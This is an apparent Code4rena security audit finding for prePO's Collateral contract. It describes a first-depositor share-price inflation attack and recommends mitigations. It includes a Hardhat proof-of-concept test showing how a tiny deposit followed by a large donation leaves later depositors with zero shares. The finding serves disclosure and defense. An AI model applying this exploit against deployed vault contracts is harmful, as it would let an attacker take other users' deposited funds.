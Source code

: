 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [First depositor can break minting of shares](https://github.com/code-423n4/2022-03-prepo-findings/issues/27) 

# Lines of code

https://github.com/code-423n4/2022-03-prepo/blob/main/contracts/core/Collateral.sol#L82-L91


# Vulnerability details

## Details

The attack vector and impact is the same as [TOB-YEARN-003](https://github.com/yearn/yearn-security/blob/master/audits/20210719_ToB_yearn_vaultsv2/ToB_-_Yearn_Vault_v_2_Smart_Contracts_Audit_Report.pdf), where users may not receive shares in exchange for their deposits if the total asset amount has been manipulated through a large “donation”.

## Proof of Concept

- Attacker deposits 2 wei (so that it is greater than min fee) to mint 1 share
- Attacker transfers exorbitant amount to `_strategyController` to greatly inflate the share’s price. Note that the `_strategyController` deposits its entire balance to the strategy when its `deposit()` function is called.
- Subsequent depositors instead have to deposit an equivalent sum to avoid minting 0 shares. Otherwise, their deposits accrue to the attacker who holds the only share.

```jsx
it("will cause 0 share issuance", async () => {
	// 1. first user deposits 2 wei because 1 wei will be deducted for fee
	let firstDepositAmount = ethers.BigNumber.from(2)
	await transferAndApproveForDeposit(
	    user,
	    collateral.address,
	    firstDepositAmount
	)
	
	await collateral
	    .connect(user)
	    .deposit(firstDepositAmount)
	
	// 2. do huge transfer of 1M to strategy to controller
	// to greatly inflate share price
	await baseToken.transfer(strategyController.address, ethers.utils.parseEther("1000000"));
	
	// 3. deployer tries to deposit reasonable amount of 10_000
	let subsequentDepositAmount = ethers.utils.parseEther("10000");
	await transferAndApproveForDeposit(
	    deployer,
	    collateral.address,
	    subsequentDepositAmount
	)

	await collateral
	    .connect(deployer)
	    .deposit(subsequentDepositAmount)
	
	// receives 0 shares in return
	expect(await collateral.balanceOf(deployer.address)).to.be.eq(0)
});
```

## Recommended Mitigation Steps

- [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
- Ensure the number of shares to be minted is non-zero: `require(_shares != 0, "zero shares minted");`
- Create a periphery contract that contains a wrapper function that atomically calls `initialize()` and `deposit()`
- Call `deposit()` once in `initialize()` to achieve the same effect as the suggestion above.

